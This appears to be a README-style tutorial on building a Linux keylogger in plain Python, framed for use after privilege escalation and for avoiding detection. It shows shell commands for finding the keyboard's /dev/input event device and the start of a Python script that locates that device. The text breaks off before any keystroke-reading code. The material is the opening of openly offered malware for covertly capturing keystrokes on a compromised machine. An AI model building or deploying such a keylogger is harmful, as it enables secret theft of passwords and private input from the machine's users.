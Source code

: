 Almost all Linux boxes will have an installation of Python. Therefore, if you have been able to escalate privileges, but don’t have an installation of Pip, or are concerned that a download might trigger additional scrutiny, the ability to whip up a keylogger in vanilla Python could be advantageous. You could accomplish the same thing in a lower level language, but chances are Python will be there, and it’s significantly more complex to implement parsing of the event structs in C.

## **Exploring /dev/input**

**To view the different event streams running in your computer:**

```bash
ls -l /dev/input/ 
```

**To discover which event is mapped to the keyboard you can use the following command:**

```bash
cat /proc/bus/input/devices
```

**Which returns a list of all the devices currently mapped to your computer and their associated event codes. To save some time:**
 
```bash
cat /proc/bus/input/devices | grep keyboard -A 8
```

**Look for the number associated with the event from the information that is returned.**

## **You can determine which event is associated with the keyboard programmatically with:**

I adapted this script from code I read @ The Hacker's Diary: https://thehackerdiary.wordpress.com/2017/04/21/exploring-devinput-1/


```python
import struct
import sys
from datetime import datetime


def get_keyboard_event_file(token_to_look_for):
    """This function iterates through /proc/bus/input/devices and prints out the information for the keyboard including the event file."""
    section = ""
    event_name = ""

    with open("/proc/bus/input/devices", "r") as fp:
        for line in fp:
            if line.strip() == "":
                if token_to_look_for in section and "mouse" not in section.lower():
                    print(f"Found [{token_to_look_for}] in:\n{section}")
                    for section_line in section.split('\n'):
                        if "Handlers=" in section_line.strip() and event_name == "":
                            print(f"Found Handlers line: [{section_line}]")
                            event_name = section_line.strip().split(' ')[-1]
                            print(f"Found event_name [{event_name}]")
                            return "/dev/input/" + event_name
                section = ""
            else:
                section += line

    if event_name == "":
        raise Exception(f"No event name was found for the token [{token_to_look_for}]")


if __name__ == '__main__':
```
